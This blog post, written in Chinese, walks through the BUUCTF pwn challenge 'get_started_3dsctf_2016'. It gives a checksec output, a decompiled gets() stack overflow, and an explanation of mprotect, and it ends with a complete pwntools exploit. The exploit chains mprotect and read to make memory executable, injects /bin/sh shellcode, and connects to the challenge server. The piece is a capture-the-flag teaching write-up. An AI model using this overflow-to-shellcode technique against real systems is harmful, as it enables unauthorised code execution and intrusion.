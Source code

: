 ```yaml
---
author: 
  name: Zephyr
title: get started 3dsctf 2016
date: 2022-3-21 13:25:03
permalink: /pages/2e1547494524d184
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# get started 3dsctf 2016

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/get_started_3dsctf_2016/get_started_3dsctf_2016'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [esp+4h] [ebp-38h]

  printf("Qual a palavrinha magica? ", v4);
  gets(&v4);
  return 0;
}
```

## 思路分析

1. 目前信息：
   - 明显的栈溢出漏洞
   - No PIE
   - 程序开启了NX保护
   - 函数表内有`mprotect`函数
1. 补充：
   - 在`Linux`中，`mprotect`函数可以用来修改一段指定内存区域的保护属性，函数原型如下

```c
int mprotect(const void *start, size_t len, int prot);
// start 为mprotect函数的第一个参数 (被修改内存的地址) 常用.got.plt/.bss起始地址
// len   为mprotect函数的第二个参数 (被修改内存的大小) 通过程序启动时查看该内存块的大小得到
// prot  为mprotect函数的第三个参数 (被修改内存的权限) 7 = 4 + 2 +1 (rwx)
```



3. 思路:
   - 本题存在`mprotect`函数，且无PIE保护，选择栈溢出到`mprotect`处修改权限，在数据段直接写入`shellcode`并返回执行

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/get_started_3dsctf_2016/get_started_3dsctf_2016'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 27774)
elf = ELF(pwnfile)
padding = 52+4
mprotect_addr = elf.symbols[b'mprotect']
read_addr = elf.symbols[b'read']
data_start = 0x80EA000
pop_3times_ret = 0x804f460
lenth = 0x2000
rwx = 7
payload = flat(['a'*padding, mprotect_addr, pop_3times_ret, data_start,lenth, rwx, read_addr, data_start, 0, data_start, 0x200])
io.sendline(payload)
payload = asm(shellcraft.sh())
io.sendline(payload)
io.interactive()
```